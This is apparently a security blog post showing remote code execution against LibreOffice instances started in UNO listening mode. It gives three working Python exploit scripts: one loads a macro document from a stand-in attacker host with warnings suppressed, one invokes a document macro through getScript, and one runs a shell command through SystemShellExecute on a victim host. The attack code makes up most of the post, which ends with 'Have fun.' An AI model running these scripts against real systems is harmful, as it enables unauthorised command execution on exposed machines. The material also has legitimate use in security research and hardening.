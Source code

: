 ```yaml
---
layout: post
title: LibreOffice listening mode RCE
---
```


LibreOffice (as well as OpenOffice and other relatives) allows users to control the program remotely via [listening mode](https://wiki.openoffice.org/wiki/Documentation/DevGuide/ProUNO/Starting_OpenOffice.org_in_Listening_Mode). 

This mode can be used on any supported platform (Windows, Linux, Mac OS X).

Everything you need is start your office program with the following command:

`soffice -accept=socket,host=0,port=2002;urp;`

Office’s listening mode uses [Universal Network Objects (UNO)](https://www.openoffice.org/udk/common/man/uno.html) component model.
You can write your own scripts to interact with UNO API with python3-uno package.

There are several ways to execute command on remote system using UNO in LibreOffice. 

I'll show you the following three:
1. Open a document with macro in it with *MacroExecMode* set to [ALWAYS\_EXECUTE\_NO\_WARN](https://www.openoffice.org/api/docs/common/ref/com/sun/star/document/MacroExecMode.html#ALWAYS_EXECUTE_NO_WARN)
2. Open a document with macro and then call it with [getScript](https://www.openoffice.org/api/docs/common/ref/com/sun/star/script/provider/XScriptProvider.html#getScript) method
3. [SystemShellExecute](https://www.openoffice.org/api/docs/common/ref/com/sun/star/system/XSystemShellExecute.html#execute) method

Each method can be used with macro security set to **Very High**.

![Very High](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/macro_high.png)



## ALWAYS\_EXECUTE\_NO\_WARN method
Create a document with macro in it. 
You can use MSF’s */exploit/multi/misc/openoffice_document_macro* or you can create it by yourself using *Shell* function of Basic language.

![Custom macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/custom_macro.png)
 
Assign your macro to document opening function via *Tools -> Customize -> Open Document*.

![Open with macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/open_with_macro.png)


File can be accessed locally as well as remotely.


```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)

inProps = []
prop = PropertyValue()
prop.Name = "MacroExecutionMode"
prop.Value = 4 # ALWAYS_EXECUTE_NO_WARN

inProps.append(prop)  
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
document.dispose()
```
 

## getScript method
 
Create a document with macro as in previous method, then directly call a macro inside the document with *getScript* and *invoke*.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple([]))
model = desktop.getCurrentComponent()
sp = model.getScriptProvider()
sc = sp.getScript("vnd.sun.star.script:Standard.Module1.Main?language=Basic&location=document")
sc.invoke((),(),())
document.dispose()
```

## SystemShellExecute method

The best way to execute your command is to use *execute* method of *XSystemShellExecute* API interface. You don't even need to create a document to use it.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
rc = context.ServiceManager.createInstanceWithContext("com.sun.star.system.SystemShellExecute", context)
rc.execute("/usr/bin/touch", "/tmp/PWNED", 1)
```

Have fun.



